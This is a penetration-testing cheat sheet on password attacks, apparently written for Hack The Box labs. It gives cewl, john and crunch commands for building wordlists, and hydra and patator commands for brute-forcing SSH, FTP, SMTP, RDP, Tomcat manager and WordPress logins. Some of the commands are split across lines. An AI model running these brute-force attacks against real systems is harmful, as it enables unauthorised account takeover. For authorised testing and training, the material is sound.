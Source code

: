 ### Passwords
For identifying hashes can use hashes.org, hash-identifier.

#### Find/examine wordlists
```bash
find . -name '*.txt' | xargs wc -l
wc -l **/*
locate tomcat |grep pass*.txt
```

#### Make paswords from a webpage
```bash
cewl http://10.10.10.10 -m 6 -w mac.txt
nano /etc/john/john.conf
# Add two numbers to end of each password
$[0-9]$[0-9]
john --wordlist=mac.txt --rules --stdout >mutated.txt
```

#### Generate passwords with crunch
```bash
crunch 4 4 -f /usr/share/crunch/charset.list mixalpha -p passwords.txt
crunch 8 8 -t,@@^^%%%
```

#### hydra attack
```bash
# -t TASKS... run TASKS number of connects in parallel per target (default: 16)
hydra -l username -P mac.txt 10.10.10.10 -t 4 -v ssh
hydra -l sunny -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt ssh://10.10.10.76:22022
hydra -l username -P mac.txt 10.10.10.10 -v snmp
hydra -l username -P mac.txt 10.10.10.10 -v ftp
hydra -l username -P mac.txt 10.10.10.10 -v pop3
hydra -l username -P mac.txt 10.10.10.10 -v smtp
hydra -l username -P mac.txt rdp://10.10.10.10 -v smb
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/
manager/html
HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcatbetterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
hydra -l falaraki -P list.txt apocalyst.htb http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log
In&redirect_to=http://apocalyst.htb/wp-admin/&testcookie=1:is incorrect”
hydra -V -L userlist.txt -p superpassword 10.10.11.174 http-post-form 'wp/login.php:log=^USER^&pwd=^PASS^&wpsubmit=Log+In:F=Invalid User'
hydra -l falaraki -P list.txt apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wpsubmit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:is incorrect" (apocalyst)
```

#### patator for SSH
```bash
patator ssh_login host=10.10.10.76 port=22022 user=sunny password=FILE0 0=/usr/share/seclists/Passwords/probable-v2-
top1575.txt persistent=0 -x ignore:mesg="Authentication failed."
```
